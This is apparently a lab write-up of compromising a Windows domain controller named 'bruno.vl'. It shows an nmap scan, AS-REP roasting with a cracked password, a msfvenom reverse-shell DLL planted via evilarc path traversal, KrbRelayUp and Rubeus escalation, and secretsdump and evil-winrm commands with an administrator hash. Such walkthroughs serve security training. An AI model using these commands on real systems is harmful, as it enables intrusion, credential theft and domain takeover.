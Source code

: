 # Enumeration
```
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 06-29-22  04:55PM       <DIR>          app
| 06-29-22  04:33PM       <DIR>          benign
| 06-29-22  01:41PM       <DIR>          malicious
|_06-29-22  04:33PM       <DIR>          queue
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-04-05 12:41:23Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: bruno.vl0., Site: Default-First-Site-Name)
|_ssl-date: 2024-04-05T12:42:45+00:00; -23h59m43s from scanner time.
| ssl-cert: Subject: commonName=brunodc.bruno.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:brunodc.bruno.vl
| Not valid before: 2023-08-22T06:05:15
|_Not valid after:  2024-08-21T06:05:15
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
| tls-alpn: 
|_  http/1.1
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=bruno-BRUNODC-CA
| Not valid before: 2022-06-29T13:23:01
|_Not valid after:  2121-06-29T13:33:00
|_http-title: IIS Windows Server
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap
|_ssl-date: 2024-04-05T12:42:46+00:00; -23h59m43s from scanner time.
| ssl-cert: Subject: commonName=brunodc.bruno.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:brunodc.bruno.vl
| Not valid before: 2023-08-22T06:05:15
|_Not valid after:  2024-08-21T06:05:15
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: bruno.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=brunodc.bruno.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:brunodc.bruno.vl
| Not valid before: 2023-08-22T06:05:15
|_Not valid after:  2024-08-21T06:05:15
|_ssl-date: 2024-04-05T12:42:45+00:00; -23h59m43s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: bruno.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=brunodc.bruno.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:brunodc.bruno.vl
| Not valid before: 2023-08-22T06:05:15
|_Not valid after:  2024-08-21T06:05:15
|_ssl-date: 2024-04-05T12:42:46+00:00; -23h59m43s from scanner time.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-04-05T12:42:46+00:00; -23h59m43s from scanner time.
| ssl-cert: Subject: commonName=brunodc.bruno.vl
| Not valid before: 2024-04-04T10:59:41
|_Not valid after:  2024-10-04T10:59:41
| rdp-ntlm-info: 
|   Target_Name: BRUNO
|   NetBIOS_Domain_Name: BRUNO
|   NetBIOS_Computer_Name: BRUNODC
|   DNS_Domain_Name: bruno.vl
|   DNS_Computer_Name: brunodc.bruno.vl
|   DNS_Tree_Name: bruno.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-04-05T12:42:05+00:00
Service Info: Host: BRUNODC; OS: Windows; CPE: cpe:/o:microsoft:windows
5985/tcp  open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf     .NET Message Framing
49664/tcp open  msrpc      Microsoft Windows RPC
49667/tcp open  msrpc      Microsoft Windows RPC
49671/tcp open  msrpc      Microsoft Windows RPC
49682/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
58597/tcp open  msrpc      Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
We find an anonymous ftp login
And checking app directory we find a changelog
![](attachment/fe20eab90d5b3e5101218634151373f4.png)
A user called svc_scan is mentioned so trying to asreproast with kerbrute:
![](attachment/06a3a66cd8f97722cf38302be2660627.png)
We get a hash.
And using hashcat:
`svc_scan:Sunshine1`
Now checking the dll file:
![](attachment/6537c0f3b422d1e226d8a0b50d493e43.png)
We can find it unzipping archives which means we can use path traversal with evilarc

Running samplescanner.exe we find 2 missing .dll files.![](attachment/45f17b69158a067f37b3600b2bcc0c67.png)
Now creating a payload:
```
msfvenom -p windows/x64/shell_reverse_tcp -f dll LHOST=10.8.1.208 LPORT=9005 > hostfxr.dll
```

And the SampleScanner is located in `app/` so using evilarc:
```
py -2 evilarc.py hostfxr.dll -p "\app" -d 1
```

Now using smb to upload the file we get a reverse shell:
![](attachment/7ae9c3e6a7703df838fe999b2197d710.png)

## KrbRelayUp
Using 
```
.\KrbRelayUp.exe full -m shadowcred -cls {d99e6e73-fc88-11d0-b498-00a0c90312f3}
```
![](attachment/98b1ed12cbfefcd038ba8193bb21ff6e.png)
Using PKinit certficate password:
```
Rubeus.exe asktgt /user:brunodc$ /certificate:MIIKSAIBAzCCCgQGC...snip.... /password:tV0-oN8$aB7- /enctype:AES256 /nowrap
```

or 

```
KrbRelayUp.exe full -m rbcd -c -cls {d99e6e73-fc88-11d0-b498-00a0c90312f3}
```
To get ticket:
```
getST.py -impersonate 'administrator' bruno.vl/'KRBRELAYUP$':"uO7/yU9/kQ0#lA7-" -spn HOST/BRUNODC
```
## Admin Shell
Then use ticket converter to convert kirbi to ccache:
```
ticketConverter.py brunodc.kirbi brunodc.ccache
```
Now using the ticket with secretsdump.py:
```
export KRB5CCNAME=./brunodc.ccache
secretsdump.py 'brunodc$'@brunodc.bruno.vl -k -no-pass
```

Then get shell:
```
evil-winrm -i bruno.vl -u administrator -H '13735c7d60b417421dc6130ac3e0bfd4'
```

